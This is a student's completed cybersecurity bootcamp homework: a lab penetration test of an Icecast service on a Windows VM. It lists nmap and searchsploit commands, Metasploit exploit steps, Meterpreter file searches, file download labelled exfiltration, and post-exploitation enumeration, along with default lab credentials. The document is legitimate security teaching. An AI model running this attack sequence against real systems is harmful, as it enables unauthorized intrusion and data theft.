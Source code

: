 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: **_`nmap -sS -sV -O 192.168.0.20`_**
      ![NMAP](/Images/nmap--sS-sV-O-192-168-0-20.PNG)  
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: **_`searchsploit icecast`_**  
     ![Searchsploit](/Images/searchsploit-icecast.PNG)  

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: **_`msfconsole`_**  
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: **_`search icecast`_**  
     ![Search ICECAST](/Images/search-icecast.PNG)  
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: **_`use 0`_**  
     ![USE 0](/Images/use-0.PNG)  
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: **_`set RHOST 192.168.0.20`_**  
     ![set RHOST](/Images/set-RHOST-192-168-0-20.PNG)  
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: **_`exploit`_**  
     ![exploit](/Images/exploit.PNG)  
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: **_`search -f *secretfile*.txt`_**  
     ![Search secretfile.txt](/Images/search--f-secretfile.PNG)  
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: **_`search -f *recipe*.txt`_**  
      ![Search recipe.txt](/Images/search--f-recipe.PNG)  
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: **_`download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’`_**  
      ![Download recipe.txt](/Images/download-C-users-IEUsers-Documents-Drinks-recipe-txt.PNG)  
      ![Download secretfile.txt](/Images/download-C-users-IEUsers-Documents-user-secretfile-txt.PNG)  
 
8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
   
      > Answer: **_`run post/multi/recon/local_exploit_suggester`_**  
      ![Run Local Exploit suggested](/Images/Uncovering-additional-vulnerabilities.PNG)  

#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: **_`run post/windows/gather/enum_logged_on_users`_**  
  ![Run Enum Logged on Users](/Images/Enumerating-logged-on-users.PNG)  

     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: **_`shell`_**  
  > **_`systeminfo`_**
    ![Shell / systeminfo](/Images/systeminfo.PNG)  
 
C. Run the command that displays the target's computer system information:

   > Answer: **_`sysinfo`_**  
   ![Sysinfo](/Images/sysinfo.PNG)  

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.

---
  
## :sunglasses: `Ketan Vithal Patel` :sunglasses:  

### `Wednesday, July 21, 2021 -- UofT Cybersecurity - Boot Camp`
#### :rose::rose:`Jai Shri Swaminarayan`:rose::rose:
```
હરે કૃષ્ણ હરે કૃષ્ણ, કૃષ્ણ કૃષ્ણ હરે હરે |  Hare Krishna Hare Krishna, Krishna Krishna Hare Hare |
હરે રામ હરે રામ, રામ રામ હરે હરે ||   Hare Ram Hare Ram, Ram Ram Hare Hare ||
```
---  
